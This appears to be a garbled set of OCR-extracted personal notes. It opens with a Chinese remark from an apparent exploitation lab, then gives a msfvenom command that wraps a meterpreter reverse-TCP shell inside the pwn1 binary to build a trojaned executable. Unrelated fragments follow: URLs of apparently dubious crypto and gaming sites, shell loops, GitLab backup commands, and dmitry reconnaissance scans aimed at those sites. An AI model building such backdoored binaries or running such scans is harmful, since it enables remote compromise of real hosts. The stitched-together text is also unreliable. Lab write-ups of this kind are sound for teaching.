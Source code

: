 对比之后，我意识到，虽然linux系统是64位，但pwn1是个32位程序啊！所以还是用x86下面的payload。



最终的指令是这样的：



msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.226.129 LPORT=4444 -x /root/20155225/pwn1 -f elf > pwn3





















https://reg.ontologycash.com/#/register?inviteCode=3604R

http://web.bitstarncoin.com/Down/IndexCN

http://game.bbtplayer.com/?lang=zh-cn



web.bitstarncoin.com

reg.ontologycash.com

game.bbtplayer.com



web.bitstarncoin.com/robots.txt

reg.ontologycash.com/robots.txt

game.bbtplayer.com/robots.txt



cat list | while read line; echo $line; done

cat file | while read line; do echo $line; done





docker exec -t <your container name> /bin/sh -c 'umask 0077; tar cfz /secret/gitlab/backups/$(date "+etc-gitlab-\%s.tgz") -C / etc/gitlab'

docker exec -t gitlab gitlab-backup create

bundle exec rake gitlab:backup:restore RAILS_ENV=production







dmitry -p web.bitstarncoin.com -f -b

dmitry -p reg.ontologycash.com -f -b

dmitry -p game.bbtplayer.com -f -b